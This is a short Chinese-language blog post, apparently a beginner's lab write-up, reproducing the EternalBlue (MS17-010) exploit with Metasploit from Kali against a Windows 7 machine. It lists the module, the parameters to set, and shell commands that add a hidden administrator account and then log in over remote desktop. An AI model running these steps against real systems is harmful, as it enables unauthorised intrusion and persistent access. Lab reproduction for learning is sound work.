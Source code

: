 ```yaml
---
layout: post
title: 'Metasploit简单使用'
subtitle: '利用永恒之蓝漏洞'
date: 2021-05-030
categories: CTF
cover: 'https://www.hualigs.cn/image/60b342c889328.jpg'
tags: 脚本的使用
---
```

## 说明
参加学校ICT活动需要一个技术展示，突然就想到之前最火的永恒之蓝漏洞，于是就有了这篇复现文章
本人还是个刚刚入门的小白，如果写的不好请轻喷
攻击机是kali 目标机是Windows 7
远程连接之前需要将Windows 7的允许远程链接打开

## 操作步骤
1. 启动Metasploit
![image](https://z3.ax1x.com/2021/05/30/2VyDN8.png)
2. 查找ms17_010
``` search ms17_010```
![iamge](https://z3.ax1x.com/2021/05/30/2Vyz4O.png)
ms17_010是永恒之蓝漏洞，适用于Windows 7和Windows Server 2012
3.使用 exploit/windows/smb/ms17_010_eternalbule
![image](https://z3.ax1x.com/2021/05/30/2V6lKs.png)
4. 设置一下
输入options
![image](https://z3.ax1x.com/2021/05/30/2V6TdP.png)
然后开始设置各种参数：
``rhosts 是目标IP地址 rprot是目标端口``
永恒之蓝漏洞是利用445端口进行渗透
5. SET
设置目标IP	设置目标端口	设置payload	设置target
![image](https://z3.ax1x.com/2021/05/30/2VcFWF.png)	
6. 开始运行 run或者exploit
然后就获取到目标电脑的权限
7. 提权方法
输入shell
![image](https://z3.ax1x.com/2021/05/30/2Vcb01.png)
7. 创建用户
`net user 123 123+qwe /add 创建一个账户123 密码123+qwe的用户 
net localgroup administrators 123 /add 将123提升为管理员`
8. 远程连接
``` rdesktop +IP```
![image](https://z3.ax1x.com/2021/05/30/2VgBAx.png)


![image](https://z3.ax1x.com/2021/05/30/2Vgcge.png)
然后登陆就可以
